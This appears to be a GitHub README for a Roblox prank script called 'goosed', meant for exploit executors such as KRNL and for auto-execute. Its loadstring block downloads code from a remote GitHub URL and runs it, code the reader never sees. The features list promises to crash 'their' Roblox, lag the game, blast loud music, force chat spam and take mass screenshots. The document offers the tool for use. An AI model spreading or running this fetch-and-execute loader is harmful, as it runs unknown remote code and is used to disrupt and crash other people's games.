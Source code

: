 # goosed!!!

this script is best used on auto execute.
# Loadstring

```
_G.CrashMinutes = 1 -- changes how long until the game crashes
_G.Disco = true -- changes the changing colors
_G.ChatLol = true -- makes you chat or not
_G.FovChanger = true -- changes your fov
_G.SoundId = "http://www.roblox.com/asset/?id=6817682704" -- set to your sound

loadstring(game:HttpGet('https://raw.githubusercontent.com/gooserblx/youhavebeengoosed/main/realshit'))()
```
# Features

This script can do numerous annoying things! Like..

- Play loud music!
- Crash their roblox!
- Make them say "lol" so fast they can't chat!
- Change their FOV! 
- Lag their game!
- Take tons of screenshots!

# Executors

This script is compatible with ANY executor!!!

Except JJsploit, don't ever use JJSploit just use KRNL instead.

# Credits

Deving stuff: Me

Everything: Me

Coolness: Me!

